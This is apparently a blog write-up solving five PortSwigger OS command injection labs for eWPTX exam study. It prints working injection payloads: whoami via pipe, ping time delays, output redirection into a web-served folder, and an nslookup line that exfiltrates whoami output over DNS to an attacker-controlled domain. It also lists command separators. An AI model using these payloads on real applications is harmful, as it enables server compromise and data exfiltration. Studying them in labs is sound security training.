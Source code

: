 ```yaml
---
title: OS Command Injection - Portswigger Labs
description: OS Command Injection - Portswigger Labs
excerpt:
  Command Injection, allows an attacker to execute operating system (OS) commands on the server that is running an application and typically fully compromise the application and its data.
datetime: 2024-05-09T19:33:07.000+00:00
tags:
  - Command Injection
  - Portswigger
  - Labs
featured: false
category: Tutorial
author: nGbonzini
type: article
coverImage:  https://miro.medium.com/v2/resize:fit:640/format:webp/1*HapzmTCjNvXIff_AsOCIuw.png
coverImageAlt: Microsoft AD
coverImageWidth: "2725"
coverImageHeight: "1400"
ogImage: "/assets/blog/hello-world/cover.jpg"
ogImageAlt: something
language: "English"
---
```

----

As preparation for the eWPTX im going to work through the Portswigger labs. In this post im going to steal... take notes about OS command injection and resolve the labs. Let's get started!!!

## Whats is OS Command Injection ?
OS command injection, allows an attacker to execute operating system (OS) commands on the server that is running an application, and typically fully compromise the application and its data.

## Lab 1 - OS Command Injection, simple case

>This lab contains an OS command injection vulnerability in the product stock checker. The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.
To solve the lab, execute the whoami command to determine the name of the current user. 

We go to the page and click in the "View Details" button.
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab1/1.png)

When we do click in "Check Stock",send a request with parameters `productId=1&storeId=2` to `/product/stock`
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab1/2.png)
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab1/3.png)

We change `storeId=2` for ...
```bash
productId=1&storeId=| whoami
```

and give us the name.
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab1/4.png)

## Blind OS command injection vulnerabilities
### Detecting blind OS command injection using time delays
You can use an injected command to trigger a time delay, enabling you to confirm that the command was executed based on the time that the application takes to respond. The ping command is a good way to do this, because lets you specify the number of ICMP packets to send.

```
& ping -c 10 127.0.0.1 &
```

## Lab 2 - Blind OS command injection with time delays
>This lab contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay. 

We go to the Submit feedback page
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/1.png)

In the form put any data, send and capture with Burpsuite.
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/2.png)
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/3.png)

After testing in all parameters with the payload ...
```
| ping -c 10 127.0.0.1 &
```
URL encoded ...
```
|+ping+-c+10+127.0.0.1+%26
```

![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/4.png)

We see a delay of 9,440 milliseconds 🥳
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/5.png)

## Exploiting blind OS command injection by redirecting output
You can redirect the output from the injected command into a file. The > character sends the output from the whoami command to the specified file. For example:

```
& whoami > /var/www/static/whoami.txt &
```

## Lab 3 - Blind OS command injection with output redirection

> This lab contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at: `/var/www/images/` The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file. To solve the lab, execute the whoami command and retrieve the output. 

Same procedure like the lab before: go to the page of Submit Feedback,fill the form, send it, capture the request.
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab3/1.png)

We search for the parameter where inject the command
```
| whoami > /var/images/www/quiensoy.txt &
```
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab3/2.png)
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab3/3.png)

## Exploiting Blind OS Command Injection Using out-of-band (OAST) techniques

You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques.
```
& nslookup kgji2ohoyw.web-attacker.com &
```

## Lab 4 - Blind OS Command Injection with out-of-band Interaction

> This lab contains a blind OS command injection vulnerability in the feedback function.The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator. 

Same procedure 😮‍💨.....Copy the url from BurpCollaborator (Buy it! 😉)

```
| nslookup 2be44phd8284tgglwr1sf7ytekkb81wq.oastify.com &
```
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab4/1.png)
And uala!
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab4/2.png)

## Next 

The out-of-band channel provides an easy way to exfiltrate the output from injected commands
```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

This causes a DNS lookup to the attacker's domain containing the result of the whoami command
```
wwwuser.kgji2ohoyw.web-attacker.com
```

## Lab 5 - Blind OS Command Injection with out-of-band data exfiltration

> This lab contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain. To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab. 

🏃‍♀️Go to the page of Submit Feedback,🏃‍♀️ fill the form, 🏃‍♀️ send it, 🏃‍♀️capture the request, copy the link from Burp Collaborator (B - U -Y -- I - T - ! 😉⬇️)

```
| nslookup 'whoami' .blablablablabla.whatever.com &
```
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab5/1.png)
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab5/2.png)
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab5/3.png)

## Ways of injecting OS Commands

The following command separators work on both Windows and Unix-based systems
```
&
&&
|
||
```

Unix
```
;
0x0a
\n
```

I hope you find it useful.👨‍💻

## Resources

[Portswigger](https://portswigger.net/web-security/os-command-injection)  

[HackTheBox](https://academy.hackthebox.com/module/details/109)  

[INE](https://ine.com/blog/command-injection)  

